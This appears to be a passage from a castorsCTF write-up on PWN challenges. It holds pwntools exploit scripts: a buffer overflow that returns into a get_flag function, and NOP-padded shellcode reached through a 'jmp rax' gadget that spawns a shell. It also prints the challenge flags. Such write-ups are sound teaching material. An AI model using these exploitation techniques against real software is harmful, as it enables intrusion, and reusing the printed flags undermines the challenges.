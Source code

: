 `Even Tom Nook is impressed. Here's your flag: castorsCTF{y0u_4r3_7h3_u1t1m4t3_turn1p_pr0ph37}`


# PWN

## abcbof
Very simple buffer overflow, to overwrite the next variable with `CyberCastors`. Simply send a string with tons of padding, which ends in `CyberCastors`. Even when unsure about the exact padding length, multiple lengths can be tested.


## babybof1 part 1
ROP to the `get_flag` function.
```python
from pwn import *
import time

context.arch = "x86_64"

elf = ELF("babybof")
r = remote("chals20.cybercastors.com", 14425)

payload = "A"*264
payload += p64(elf.symbols["get_flag"])
r.sendline(payload)
r.shutdown("send")
r.interactive()
```
Running it yields the flag: `castorsCTF{th4t's_c00l_but_c4n_y0u_g3t_4_sh3ll_n0w?}`

## babybof1 pt2
Same start as the babybof1 challenge, except this time we need a shell. Since the stack is executable, and RAX contains a pointer to the array `gets()` wrote to, we use a "jmp rax" gadget to execute our shellcode.

*Replaces the payload in pt 1*

```python
JMP_RAX = 0x0000000000400661
payload = asm(shellcraft.sh()).ljust(264, "\x90")
payload += p64(JMP_RAX)
r.sendline(payload)
r.interactive()
```
When we have a shell we can cat the `shell_flag.txt`
```console
Welcome to the cybercastors Babybof
Say your name: sh: 0: can't access tty; job control turned off
$ ls
babybof  flag.txt  shell_flag.txt
$ cat shell_flag.txt
castorsCTF{w0w_U_jU5t_h4ck3d_th15!!1_c4ll_th3_c0p5!11}
```
